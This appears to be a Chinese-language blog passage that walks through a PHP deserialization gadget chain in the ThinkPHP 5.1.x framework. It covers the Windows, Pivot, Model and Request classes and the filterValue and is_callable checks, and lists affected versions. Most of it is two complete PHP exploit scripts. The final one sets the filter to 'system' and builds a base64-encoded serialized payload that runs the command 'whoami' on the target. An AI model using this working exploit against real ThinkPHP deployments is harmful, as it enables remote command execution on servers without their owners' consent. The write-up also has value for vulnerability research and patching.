

随后进入param函数，需要设置param的name值也就是我们的config数组中var_ajax键对应值,但是需要设置什么值呢？

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct() {
            $this -> files = [new Pivot()];
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}
namespace think{
    abstract class Model{
        private $data = [];
        protected $append = [];
        public function __construct(){
            $this -> append = ["test" => ["test"]];
            $this -> data = ["test" => new Request()];
        }
    }
    class Request{
        protected $hook = [];
        protected $config;
        protected $param;
        protected $filter;
        public function __construct(){
            $this -> hook = ["visible" => [$this,"isAjax"]];
            $this -> config = ['var_ajax'=> 'aaa'];
            $this -> param = ["aaa"=>'whoami'];
        }
    }
}
namespace {
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```



注意到input中有一个getData函数



很容易就看出来，这里的话设置

```php
$this -> config = ['var_ajax'=> 'aaa'];
$this -> param = ["aaa"=>'whoami'];
```

var_ajax键的值必须等于param的键名，这也才会返回data为whoami，随后进入filterValue函数，这时候就需要设置$filters的值了



这里需要关注is_callable函数，该函数用于验证值是否可以在当前范围内作为函数调用

所以最后的exp

# 0x03最终exp

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct() {
            $this -> files = [new Pivot()];
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}
namespace think{
    abstract class Model{
        private $data = [];
        protected $append = [];
        public function __construct(){
            $this -> append = ["test" => ["test"]];
            $this -> data = ["test" => new Request()];
        }
    }
    class Request{
        protected $hook = [];
        protected $config;
        protected $param;
        protected $filter;
        public function __construct(){
            $this -> hook = ["visible" => [$this,"isAjax"]];
            $this -> config = ['var_ajax'=> 'aaa'];
            $this -> param = ["aaa"=>'whoami'];
            $this -> filter = "system";
        }
    }
}
namespace {
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```



# 0x04影响版本

```
5.1.3 < tp < 5.1.37
```

# 0x05总结

其实这个exp最后的参数是我调试了一晚上得来的，当时一直没调试出来，卡在is_callable函数检测上，后面发现是我框架版本搞错了，这得益于我环境搭建的时候

```
composer create-project --prefer-dist topthink/think=5.1.* thinkphp5.1.37
```

这里没有指定版本，导致下载了5.1的最新版本，但是我并不清楚是因为框架版本不同，其中对该函数设置范围的不同导致的，这个结论并没有去验证，后面有机会再研究一下吧
